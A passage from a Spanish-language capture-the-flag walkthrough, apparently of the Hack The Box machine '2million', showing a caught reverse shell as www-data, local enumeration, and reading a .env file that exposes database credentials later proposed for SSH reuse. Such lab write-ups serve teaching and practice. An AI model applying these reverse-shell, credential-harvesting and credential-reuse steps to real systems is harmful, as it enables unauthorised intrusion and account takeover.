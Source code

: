 ```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.221] 43022
bash: cannot set terminal process group (1174): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ whoami
whoami
www-data
www-data@2million:~/html$ 
```

Antes de hacer algo, vamos a realizar un ![[/posts/tratamiento-tty]] y comenzaremos enumerando el sistema para ver como podemos escalar privilegios. 

```bash
www-data@2million:~/html$ id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@2million:~/html$ sudo -l
[sudo] password for www-data: 
sudo: a password is required
www-data@2million:~/html$ ls -la
total 56
drwxr-xr-x 10 root root 4096 May 19 02:50 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 May 19 02:50 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
www-data@2million:~/html$
```

En la ruta donde nos encontramos tenemos el archivo `.env` y tenemos permisos de lectura, así que vamos a ver el contenido:

```bash
www-data@2million:~/html$ cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
www-data@2million:~/html$
```

Tenemos la posible contraseña del usuario admin, por lo que podríamos tratar de validarla accesando por SSH:
